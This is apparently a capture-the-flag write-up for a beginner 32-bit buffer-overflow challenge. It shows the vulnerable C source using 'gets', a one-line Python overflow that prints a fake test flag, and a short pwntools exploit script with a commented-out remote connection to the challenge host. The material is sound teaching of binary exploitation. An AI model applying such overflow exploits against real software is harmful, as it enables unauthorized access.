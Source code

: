 # Binexp-0

> **Description:** River Flows In You~
>
> **Remote Instance:** nc 54.255.236.13 9000

### Basic File Checks

Perform basic file checks to understand how the binary was compiled.

```
┌──(kali💀JesusCries)-[~/Desktop]
└─$ file binexp-0 
binexp-0: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.18, BuildID[sha1]=b177222eda27e1540b74b4416c146500a146ae66, not stripped
```

From the command above, some of the major takeaways are:

- ELF File Type.
- 32-bit.
- Least Significant Bit (LSB) executable.
- Functions name not stripped.

### Static Code Analysis

By looking at the source code, the `gets` function does not limit the input size, which is bound to exceed the buffer limit in a Buffer Overflow attack.

```
#include <stdio.h>
#include <stdlib.h>

int main(int argc, char *argv[]) {
	int win;
	char buf[32];
	char flag[100];

	win = 0;

	FILE *f = fopen("flag.txt", "r");
	if (f == NULL) {
		puts("'flag.txt' not found.");
		exit(0);
	}

	fgets(flag, 100, f);
	gets(buf);

	if(win != 0) {
		printf("%s\n", flag);
	} else {
		puts("You failed!\n");
	}
}
```

### Proof of Concept

We can overwrite the `win` variable by inputting a series of characters that exceed the size of the buffer.

```
┌──(kali💀JesusCries)-[~/Desktop]
└─$ python -c "print('A' * 32 + 'B')" | ./binexp-0
BAT22{f4k3_fl4g_f0r_t3st1ng}     
```

### Solution

Using pwntools to automate the process:

```
#!/usr/bin/env python3
from pwn import *

elf = ELF('./binexp-0')
rop = ROP(elf)

p = elf.process()
#p = remote('54.255.190.215', 9000)

def exploit():

    padding = b'A'*140

    payload = padding

    p.sendline(payload)

    p.interactive()

def main():
	exploit()

if __name__ == "__main__":
	main()
```

